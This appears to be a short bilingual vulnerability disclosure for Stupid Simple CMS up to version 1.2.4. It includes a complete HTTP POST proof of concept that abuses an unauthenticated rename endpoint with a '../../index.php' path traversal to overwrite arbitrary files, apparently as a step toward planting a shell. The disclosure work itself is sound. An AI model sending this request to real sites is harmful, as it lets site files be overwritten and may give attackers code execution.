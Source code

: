 product： Stupid Simple CMS ( Blogger )

download link： https://github.com/codelyfe/Stupid-Simple-CMS

version：<=1.2.4

POC
```shell
POST http://localhost/file-manager/rename.php HTTP/1.1
Host: localhost
Content-Length: 36
sec-ch-ua: "Chromium";v="91", " Not;A Brand";v="99"
Accept: */*
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.101 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/file-manager/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

oldName=shell.txt&newName=../../index.php
```
The code audit found that the file renaming interface has no authentication measures, which can lead to arbitrary file overwriting.
代码审计发现文件重命名接口无鉴权措施，可导致任意文件覆盖
![](https://cdn.jsdelivr.net/gh/g1an123/blogimage@main/202312171633421.png)

![](https://cdn.jsdelivr.net/gh/g1an123/blogimage@main/202312151618298.png)
Arbitrarily use a known file to overwrite any file across directories, combined with cross-directory vulnerabilities to achieve arbitrary file overwriting.
随意使用一个已知的文件进行跨目录覆盖任意文件，配合跨目录漏洞可以实现任意文件覆盖。
![](https://cdn.jsdelivr.net/gh/g1an123/blogimage@main/202312151654061.png)
Local test: overwritten successfully.
本地测试：覆盖成功。
![](https://cdn.jsdelivr.net/gh/g1an123/blogimage@main/202312151655120.png)
